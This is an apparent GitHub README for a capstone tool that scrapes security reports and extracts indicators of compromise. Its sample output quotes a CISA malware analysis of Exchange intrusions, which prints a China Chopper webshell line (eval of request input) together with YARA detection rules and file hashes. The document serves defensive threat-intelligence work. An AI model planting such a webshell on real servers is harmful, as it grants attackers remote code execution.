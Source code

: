 # Capstone-MISP-Module

- [Capstone-MISP-Module](#capstone-misp-module)
  - [How to run the spider module](#how-to-run-the-spider-module)
## 1) How to run the spider module
1. Navigate to `Capstone-MISP-Module/web-crawler`
2. If not done already, install project dependencies with `pipenv install`
3. Open the python virtual environment for spider module with `pipenv shell`
4. Navigate back to root directory: `Capstone-MISP-Module/web-crawler`
5. Run the spider with `scrapy runspiderweb-crawler/infosecspider/spiders/scraper.py`, where `scraper.py` is the name of the scraping script in `infosecspider/spiders`. This will create an `/output/` folder inside the directory of `Capstone-MISP-Module/` which will contain all the web-scraped urls/blogs posts/technical reports.

- Viewing the initial folders created in /Capstone-MISP-Module/output/:
<div align="center"><img alt="First pass OCR transcription" width="400px" src="images/outputfoldervanilla.png"></div>


## 2) Setting up and How to run the Indicators Of Compromise (IOC) extraction module on the /outputs/ folder generated from step 1
1. Navigate to `Capstone-MISP-Module/`
2. `unzip cyobstract.zip` #Cyobstract IOC extraction tool authored by Sam-Perl, et al.
3. `python cyobstract/setup.py install` #install cyobstract dependencies
4. `pip install --upgrade --force-reinstall progress` #fixes library errors

### Sample code of how to utilize the initiate_ioc_extraction_main function. This function  and extracts all IOCs utilizing Cyobstract module

The parameters this function takes are:
  * path_outputs= takes the '/output' folder path from Section 1, where the scraped webpages are location in JSON format
  * view_scraping_within_last_hours= filter web-scraped-results based on the number of hours (note: this time is set when we run scraper.py from Section 1, and that all urls are scanned every time (to check for blog/technical reports updates, which might contain new IOCs)

```bash
from util.ioc_extract import initiate_ioc_extraction_main

#returns a dictionary of dicts or None
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(dictionary)
```

### Partial sample of output on a CISA analysis-report (url: https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d)
```bash
{'cisa': {'20210429-2315': {'ar21-072d.json': {'article_url': 'https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d',
    'asn': (),
    'asnown': (),
    'cc': ('China',),
    'cve': ('CVE-2021-26855', 'CVE-2021-27065'),
    'data': '\n\t\t\tNotification\n\n\t\t\t\n\t\t\tThis report is provided "as is" for informational purposes only. The Department of Homeland Security (DHS) does not provide any warranties of any kind regarding any information contained herein. The DHS does not endorse any commercial product or service referenced in this bulletin or otherwise.\n\n\t\t\tThis document is marked TLP:WHITE--Disclosure is not limited. Sources may use TLP:WHITE when information carries minimal or no foreseeable risk of misuse, in accordance with applicable rules and procedures for public release. Subject to standard copyright rules, TLP:WHITE information may be distributed without restriction. For more information on the Traffic Light Protocol (TLP), see http://www.us-cert.gov/tlp.\n\n\t\t\tFor a downloadable copy of IOCs, see: MAR-10329297-1.v1.stix.\n\t\t\t\n\n\t\t\tSummary\n\n\t\t\t\n\t\t\tDescription\n\n\t\t\tCISA received two unique files for analysis. These files appear to contain configuration data for two different Microsoft Exchange Offline Address Book (OAB) Virtual Directories (VD) extracted from a Microsoft Exchange Server. Both output files show malicious modifications for the ExternalUrl parameters for these two OAB VDs on the targeted Exchange Servers. In one of the OAB VDs, the ExternalUrl parameter contains a "China Chopper" webshell which may permit a remote operator to dynamically execute JavaScript code on the compromised Microsoft Exchange Server. The second file is modified with an authentication key.\n\n\t\t\tSubmitted Files (2)\n\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd (2XJHwN19.aspx)\n\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8 (UwSPMsFi.aspx)\n\t\t\t\n\n\t\t\tFindings\n\n\t\t\t\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\n\t\t\tTags\n\n\t\t\tbackdoortrojanwebshell\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\tUwSPMsFi.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2186 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tHTML document, ASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t78564702783ba738aa6a920f3b15a202\n\t\t\t\t\tSHA1\n\t\t\t\t\t\ta75fa74ae35ce20c9cfc273c219ef58f1c4714a6\n\t\t\t\t\tSHA256\n\t\t\t\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\t\t\t\t\tSHA512\n\t\t\t\t\t\t63afff12ac7cfd65ba31aad61bab534040fc3ff8b782336fcdbe171bf43f733734770c5f11bfbf9f4b5a1beaf279e8ad8d6509ff6e07b7afba098a8e6ba52a6c\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t24:kNrde9/xL+rJTh91Q/PSR6j0SzMaEVMr6j71idfhLhgupVFgdUYC2E4ONF0qp0Bz:kNrdezC1BO0KM5QZLh9pV/YE4ONF0qBW\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.662408\n\t\t\t\t\tAntivirus\n\n\t\t\tAhnlab\n\t\t\t\t\t\tExploit/ASP.Cve-2021-27065.S1406\n\t\t\t\t\tAvira\n\t\t\t\t\t\tEXP/CVE-2021-27065.1\n\t\t\t\t\tBitDefender\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tClamAV\n\t\t\t\t\t\tAsp.Trojan.Webshell0321-9840176-0\n\t\t\t\t\tEmsisoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112 (B)\n\t\t\t\t\tIkarus\n\t\t\t\t\t\tExploit.ASP.CVE-2021-27065\n\t\t\t\t\tLavasoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tMcAfee\n\t\t\t\t\t\tExploit-CVE2021-27065.a\n\t\t\t\t\tMicrosoft Security Essentials\n\t\t\t\t\t\tExploit:ASP/CVE-2021-27065\n\t\t\t\t\tQuick Heal\n\t\t\t\t\t\tCVE-2021-26855.Webshll.41350\n\t\t\t\t\tSophos\n\t\t\t\t\t\tTroj/WebShel-L\n\t\t\t\t\tSymantec\n\t\t\t\t\t\tTrojan.Chinchop\n\t\t\t\t\tTrendMicro\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tTrendMicro House Call\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_01 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Webshellz"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 65 76 61 6C 28 52 65 71 75 65 73 74 5B 22 [1-32] 5D 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 65 76 61 6C 28 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 28 52 65 71 75 65 73 74 2E 49 74 65 6D 5B [1-36] 5D 29 29 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s3 = { 49 4F 2E 53 74 72 65 61 6D 57 72 69 74 65 72 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s4 = { 57 72 69 74 65 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 or ($s1 and $s2) or ($s3 and $s4)\n\t\t\t\t}\n\t\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit an OAB VD in Internet Information Services (IIS) on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The OAB ExternalUrl parameter has been modified by a remote operator to include a "China Chopper" webshell which is likely an attempt to gain unauthorized access for dynamic remote code execution against a targeted Microsoft Exchange Server. In this file, the OAB ExternalUrl parameter was configured to accept JavaScript code which will be directly executed on the target system. The modification of the ExternalUrl parameter suggests the operator can dynamically submit queries to this Exchange OAB VD.\n\t\t\tThe ExternalUrl designation that normally specifies the Uniform Resource Locator (URL) used to connect to the VD from outside the firewall has been replaced with the following code:\n\t\t\t--Begin Code--\n\t\t\thxxp[:]//f/<script language="JScript" runat="server">function Page_Load(){eval(Request["[REDACTED]"],"unsafe");}</script>\n\t\t\t--End Code--\n\t\t\tNote: The hard-coded key used for authentication was redacted from the code above.\n\t\t\tThis code allows an attacker to access the shell using a password. Once accessed, the attacker is able to execute commands on the page with server (system) level privileges.\n\t\t\t\n\n\t\t\t\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\n\t\t\tTags\n\n\t\t\tbackdoor\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\t2XJHwN19.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2177 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t4580f7f2f2d7ac1af26693132c2e756d\n\t\t\t\t\tSHA1\n\t\t\t\t\t\t1fead8d37f73b87ab75d0096d49b797afe7d0445\n\t\t\t\t\tSHA256\n\t\t\t\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\t\t\t\t\tSHA512\n\t\t\t\t\t\tfceddb90d8a9445a726eefa6df7fe928006d6a29279138e1b7906534d3b188d08eda62a939617a7944889d8e2e160417600947f48d5704cb537e64b2523ba1a4\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t48:kNrdNC1BS67PQZLh9pVn3tE4ONF0qny/W:ktdcVM7n3mNCqny/W\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.495728\n\t\t\t\t\tAntivirus\n\n\t\t\tSophos\n\t\t\t\t\t\tTroj/ASPDoor-W\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit a OAB VD in IIS on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The configuration has been modified with a key in the \'ExternalUrl\' field. The key is most likely used for authentication to the server.\n\t\t\t\n\n\t\t\tMitigation\n\n\t\t\t\n\t\t\tIf you find these webshells as you are examining your system for Microsoft Exchange Vulnerabilities, please visit the https://us-cert.cisa.gov/remediating-microsoft-exchange-vulnerabilities website for further information on remediation.\n\t\t\t\n\n\t\t\tRecommendations\n\n\t\t\t\n\t\t\tCISA recommends that users and administrators consider using the following best practices to strengthen the security posture of their organization\'s systems. Any configuration changes should be reviewed by system owners and administrators prior to implementation to avoid unwanted impacts.\n\n\t\t\tMaintain up-to-date antivirus signatures and engines.\n\t\t\t\tKeep operating system patches up-to-date.\n\t\t\t\tDisable File and Printer sharing services. If these services are required, use strong passwords or Active Directory authentication.\n\t\t\t\tRestrict users\' ability (permissions) to install and run unwanted software applications. Do not add users to the local administrators group unless required.\n\t\t\t\tEnforce a strong password policy and implement regular password changes.\n\t\t\t\tExercise caution when opening e-mail attachments even if the attachment is expected and the sender appears to be known.\n\t\t\t\tEnable a personal firewall on agency workstations, configured to deny unsolicited connection requests.\n\t\t\t\tDisable unnecessary services on agency workstations and servers.\n\t\t\t\tScan for and remove suspicious e-mail attachments; ensure the scanned attachment is its "true file type" (i.e., the extension matches the file header).\n\t\t\t\tMonitor users\' web browsing habits; restrict access to sites with unfavorable content.\n\t\t\t\tExercise caution when using removable media (e.g., USB thumb drives, external drives, CDs, etc.).\n\t\t\t\tScan all software downloaded from the Internet prior to executing.\n\t\t\t\tMaintain situational awareness of the latest threats and implement appropriate Access Control Lists (ACLs).\n\t\t\tAdditional information on malware incident prevention and handling can be found in National Institute of Standards and Technology (NIST) Special Publication 800-83, "Guide to Malware Incident Prevention & Handling for Desktops and Laptops".\n\t\t\t\n\n\t\t\tContact Information\n\n\t\t\t\n\t\t\t1-888-282-0870\n\t\t\t\tCISA Service Desk (UNCLASS)\n\t\t\t\tCISA SIPR (SIPRNET)\n\t\t\t\tCISA IC (JWICS)\n\t\t\tCISA continuously strives to improve its products and services. You can help by answering a very short series of questions about this product at the following URL: https://us-cert.cisa.gov/forms/feedback/\n\t\t\t\n\n\t\t\tDocument FAQ\n\n\t\t\t\n\t\t\tWhat is a MIFR? A Malware Initial Findings Report (MIFR) is intended to provide organizations with malware analysis in a timely manner. In most instances this report will provide initial indicators for computer and network defense. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tWhat is a MAR? A Malware Analysis Report (MAR) is intended to provide organizations with more detailed malware analysis acquired via manual reverse engineering. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tCan I edit this document? This document is not to be edited in any way by recipients. All comments or questions related to this document should be directed to the CISA at 1-888-282-0870 or CISA Service Desk.\n\n\t\t\tCan I submit malware to CISA? Malware samples can be submitted via three methods:\n\n\t\t\tWeb: https://malware.us-cert.gov\n\t\t\t\tE-Mail: submit@malware.us-cert.gov\n\t\t\t\tFTP: ftp.malware.us-cert.gov (anonymous)\n\t\t\tCISA encourages you to report any suspicious activity, including cybersecurity incidents, possible malicious code, software vulnerabilities, and phishing-related scams. Reporting forms can be found on CISA\'s homepage at www.cisa.gov.\n\t\t\t\n\t\t\t\n\t\t',
    'email': ('submit@malware.us-cert.gov',),
    'filename': (),
    'filepath': (),
    'fqdn': ('ftp.malware.us-cert.gov',
     'malware.us-cert.gov',
     'us-cert.cisa.gov',
     'www.cisa.gov',
     'www.us-cert.gov'),
    'incident': (),
    'ipv4addr': (),
    'ipv4cidr': (),
    'ipv4range': (),
    'ipv6addr': (),
    'ipv6cidr': (),
    'ipv6range': (),
    'isp': (),
    'malware': ('asp.trojan.webshell0321-9840176-0',
     'exp/cve-2021-27065.1',
     'exploit-cve2021-27065.a',
     'exploit.asp.cve-2021-27065',
     'exploit/asp.cve-2021-27065.s1406',
     'exploit:asp/cve-2021-27065',
     'generic.asp.webshell.h.48a3b112',
     'troj/aspdoor-w',
     'troj/webshel-l',
     'trojan.chinchop'),
    'md5': ('4580f7f2f2d7ac1af26693132c2e756d',
     '78564702783ba738aa6a920f3b15a202',
     'ab3963337cf24dc2ade6406f11901e1f'), ...
```

## 3) (Optional) Expanding the current scraped urls through the use of google searches (blogs/technical reports/hacker news, etc) implemented in Capstone-MISP-Module/util/ioc_extract_expander.py

A powerful function of our tool comes from the power of allowing a user to expand their database by selecting a previously extracted ioc from a webpage/article for a deep search of the internet. Say you are a security expert and want to get as much information on a new malware with a particular IOC (say a particular MD5 hash). You can do this by running the function below, which will perform X number of google searches for your desired IOC, update the '/Capstone-MISP-Module/output/' folder with the new scraped-websites, and return all the extracted IOCs from how many google searches you specify. 

The parameters this function takes are:
  * dictionary= dictionary of IOCs you have scraped so far
  * article_lookup = name of an article which contains an IOC category you are interested in, i.e. MD5
  * num_google_results = how many google hits do you desired to be scraped for each IOC in the chosen IOC category
  * search_speed = speed of google searches (warning: do not set too low, or may be IP blocked by Google)


### Sample code to run ioc_extract_expander.py for one article
```bash
from util.ioc_extract import initiate_ioc_extraction_main
from util.ioc_extract_expander import recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches


#returns a dictionary of dicts or None (same as Section 2 above)
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

#updates 'Capstone-MISP-Module/output' folder with new entries through google searches
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup='ar21-084a.json', ioc='md5', num_google_results=10,search_speed=3)

print('\n----------------Break------------\n')

#We call again initiate_ioc_extraction_main() to generate a bigger dictionary utilizing all the newly google queried articles for the extraction of more IOCs above
bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(bigger_dictionary) #Will print a bigger dictionary containing all new articles. Won't show output here as it is a long dictionary.
```
### You could even call 'recursive_ioc_extractor_....' several times in a row as well (example use case: interested in obtaining more information of 2 new malwares through their MD5 hashes):
```bash
article_1= 'ar21-084a.json'
article_2= 'ar21-072e.json'
selected_ioc_type = 'md5'
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_1, ioc=selected_ioc_type, num_google_results=10,search_speed=3)
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_2, ioc=selected_ioc_type, num_google_results=10,search_speed=3)

even_bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

```

- Demonstration of expansion of scraped-websites folder in /Capstone-MISP-Module/output/ (compare to Section 1):

<div align="center"><img alt="First pass OCR transcription" width="600px" src="images/outputfolderexpanded.png"></div>

